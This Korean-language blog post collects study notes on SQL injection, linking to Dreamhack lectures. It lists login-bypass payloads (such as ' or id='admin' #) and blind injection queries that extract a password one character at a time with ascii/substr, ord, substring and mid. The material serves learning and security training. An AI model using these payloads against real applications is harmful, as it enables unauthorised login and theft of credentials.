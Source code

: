 ```yaml
---
title : SQL Injection 공격 기법
categories : [Hacking, Web] 
tags : [SQL Injection, Blind SQL Injection, Error Based SQL Injection, Subquery, Time Based SQL Injection, Quine SQL Injection, Information_schema, schemata]
---
```


## 정리글 모음
<hr style="border-top: 1px solid;"><br>

Link
: <a href="https://blog.ssrf.kr/40" target="_blank">blog.ssrf.kr/40</a>
: <a href="https://dreamhack.io/lecture/courses/27" target="_blank">Server-side Advanced - SQL Injection</a>

<br>

DBMS 종류 별 공격 기법 요약
: <a href="https://learn.dreamhack.io/27#21" target="_blank">Server-side Advanced - SQL Injection</a>

<br><br>
<hr style="border: 2px solid;"><br>
<br><br>

## SQL Injection
<hr style="border-top: 1px solid;"><br>

```sql
select id from table where id='' or 1 #'

select id from table where id='' or id='admin' #'

select id from table where id='' or 1 --%20' 
```

<br><br>
<hr style="border: 2px solid;"><br>
<br><br>

## Blind SQL Injection
<hr style="border-top: 1px solid;"><br>

```
select id from table where id='' or id='admin' and ascii(substr(pw,1,1))>1 #'

select id from table where id='' or id='admin' and ord(substr(pw,1,1))>1 #'

select id from table where id='' or id='admin' and ascii(substring(pw,1,1))>1 #'

select id from table where id='' or id='admin' and ascii(mid(pw,1,1))>1 #'
```
